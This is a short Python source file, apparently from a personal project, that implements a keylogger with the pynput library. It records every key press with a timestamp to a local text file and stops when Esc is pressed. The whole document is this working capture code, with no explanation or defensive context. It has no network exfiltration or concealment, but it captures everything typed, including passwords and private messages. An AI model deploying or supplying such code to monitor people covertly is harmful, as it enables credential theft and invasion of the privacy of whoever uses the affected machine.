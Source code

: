 # keylogger
import pynput
from pynput.keyboard import Key, Listener
import logging

log_dir = r"D:\rrp_proj\rrp"
logging.basicConfig(filename=(log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    try:
        logging.info(str(key))
    except Exception as e:
        print(f"Error: {e}")

def on_release(key):
    if key == Key.esc:
        return False

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
